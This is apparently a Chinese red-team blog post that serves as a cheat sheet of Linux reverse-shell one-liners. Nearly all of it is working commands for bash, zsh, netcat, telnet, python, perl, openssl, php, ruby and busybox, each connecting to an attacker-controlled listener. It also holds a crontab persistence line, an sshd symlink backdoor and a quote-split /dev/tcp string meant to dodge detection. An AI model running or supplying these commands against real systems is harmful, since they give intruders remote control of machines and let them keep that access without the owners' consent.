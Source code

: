 ```yaml
---
title: linux下反弹shell
date: 2021-12-21 13:14:37
categories: 红队技术
tags:
- 反弹shell
- Linux安全
---
```


> 桃李春风一杯酒，江湖夜雨十年灯。

常见的一些linux反弹shell总结

<!-- more -->

## bash反弹

```
靶机：
bash -i >& /dev/tcp/172.16.42.1/44044 0>&1
非bash环境：/bin/bash -c "/bin/bash -i >& /dev/tcp/172.16.42.1/44044 0>&1"

攻击机：
nc -lvvp 44044
```



## zsh反弹

```
靶机：zsh -c 'zmodload zsh/net/tcp && ztcp 172.16.42.1 44044 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
攻击机：nc -lvvp 44044
```





## nc反弹

 ```
靶机：netcat 172.16.42.1 44044 -e /bin/bash
攻击机：nc -lvvp 44044
 ```



## nc正向反弹

```
靶机：nc -lvp 7777 -e /bin/bash
攻击机：nc 172.16.43.1 7777
```



## telnet反弹

```
靶机: mknod a p; telnet 172.16.42.1 44044 0<a | /bin/bash 1>a
攻击机：nc -lvvp 44044
```



## telnet+mkfifo

```
TF=$(mktemp -u); mkfifo $TF && telnet 172.16.42.150 4444 0<$TF | /bin/sh 1>$TF
```



## python反弹

```
靶机：
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.42.1",44044));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

攻击机：
nc -lvvp 44044
```



## perl反弹

```
靶机：
perl -e 'use Socket;$i="172.16.42.1";$p=44044;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

攻击机：
nc -lvvp 44044
```



## perl2

```
perl -e 'use IO::Socket;$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"172.16.42.150:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```



## perl fork

```
perl -e 'use IO::Socket;$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"172.16.42.150:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```



## open ssh 反弹

```
靶机：
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 172.16.42.150:2333 > /tmp/s; rm /tmp/s

攻击机：
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 2333

```



## SSH反弹

```
靶机：
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8080;
攻击机：
ssh root@172.16.42.146 -p 8080

```



## crontab

```
靶机：
(crontab -l;printf "* * * * *  /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"172.16.42.146\",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n")|crontab -
攻击机：
nc -lvvp 8080


```



## php

```
靶机：
php -r '$sock=fsockopen("172.16.42.146",8080);exec("/bin/bash -i <&3 >&3 2>&3");'
攻击机：
nc -lvvp 8080

```



## Ruby

```
靶机：
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("172.16.42.146","8080");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
攻击机：
nc -lvvp 8080
```

## busybox

```
busybox sh -i >& /dev/t""cp/172.16.42.150/4444 0<&1
```





## 参考

https://jkme.github.io/pages/reverse-shell.html

https://ninjia.gitbook.io/secskill/net/shell#php
